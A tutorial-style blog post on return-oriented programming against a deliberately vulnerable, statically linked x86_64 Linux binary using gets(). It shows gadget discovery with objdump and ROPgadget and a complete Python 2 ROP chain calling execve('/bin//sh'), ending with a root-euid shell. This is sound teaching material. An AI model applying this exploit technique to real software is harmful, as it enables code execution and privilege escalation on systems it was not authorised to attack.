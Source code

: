 ```yaml
---
layout: post
title: "[Return Oriented Programming] Easy method"
categories: [pwn]
tags: [pwn]
description: How to bypass NX/ASLR protections with a statically linked binary using ROP on a x64 Linux system.
---
```


Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

#1. Vulnerable binary
For this exemple, I will take a very simple code.
<pre><code class="cpp">#include <stdio.h>

// gcc main.c -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static
int main()
{
  char buf[64];

  gets(buf);  // Never use this this function !
  printf("%s", buf);
  return 0;
}
</code></pre>
Like you can see, the vulnerability is near the gets function. As the gets function does not control the size of the input data, we will easily can pass an exploit thanks to the ROP method.

#2. To begin
Our goal is to get a shell. For this, I choose to use the execve syscall.

For remind: 
int execve(const char *filename, char *const argv[], char *const envp[]);  RAX = 59

So we will have:
RDI = "/bin//sh"
RSI = NULL
RDX = NULL
RAX = 59

#3. Payload construction
To construct our payload, we will first need to set RSI (the filename arg of execve) to the string "/bin//sh". (double slash because of 64 bits architecture)
We will use the @data section to store our string. To get the data section address we will use objdump:
<pre><code class="bash">$ objdump -D a.out | grep data
...
Disassembly of section .data:
00000000006b4000 <__data_start>:
...
</code></pre>
Ok, now we need the gadget to set RDI register.

We will need the following gadget:
pop rdi, to set RSI address point to the data section.
pop rsi, to store tempararily the data section address. (because the binary does not contain "mov qword ptr [rdi], rax ; ret" gadget)
pop rax, to store temporarily the string "/bin//sh".
mov QWORD PTR [rsi], rax, to move the string to the address pointed by rsi. (the data section address)

Thanks to ROPgadget, it's very easy to locate the gadget:
<pre><code class="bash">$ ROPgadget --binary a.out| egrep 'pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret'
...
0x000000000045f491 : mov qword ptr [rsi], rax ; ret
0x00000000004314ad : pop rax ; ret
0x00000000004016b7 : pop rsi ; ret
0x000000000040159b : pop rdi ; ret
...</code></pre>
After multiple test, I found 72 of padding before rewrite RIP.
So our payload will begin like this:
<pre><code class="python">p = 'A'*72
p += pack('<Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('<Q', 0x00000000006b4000) # adress of the data section
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040159b) # pop rdi ; ret
p += pack('<Q', 0x00000000006b4000) # adress of the data section</pre></code>

So now we just have to repeat this step for the next two arguments.
We will have:
<pre><code class="python">p += pack('<Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('<Q', 0x0000000000000000) # set rdx to NULL
p += pack('<Q', 0x0000000000000000) # set rsi to NULL</code></pre>
The last step is to set RAX to 59 (the number of execve syscall) and call the "syscall" instruction.
<pre><code class="python">p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += pack('<Q', 0x000000000000003b) # Set rax to 59
p += pack('<Q', 0x0000000000454515) # syscall ; ret</code></pre>

#4. Exploitation
The whole payload:
<pre><code class="python">#!/usr/bin/env python2

from struct import pack

p = 'A'*72 # padding

p += pack('<Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('<Q', 0x00000000006b4000) # address of data section
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret

p += pack('<Q', 0x000000000040159b) # pop rdi ; ret
p += pack('<Q', 0x00000000006b4000) # address of data section
p += pack('<Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('<Q', 0x0000000000000000) # set rdx to 0
p += pack('<Q', 0x0000000000000000) # set rsi to 0
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += pack('<Q', 0x000000000000003b) # Set rax to 59
p += pack('<Q', 0x0000000000454515) # syscall ; ret

print p</code></pre>

Now we test:
<pre><code class="bash">$ (python2 rop.py; cat) | ./a.out
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)</pre></code>
Done.
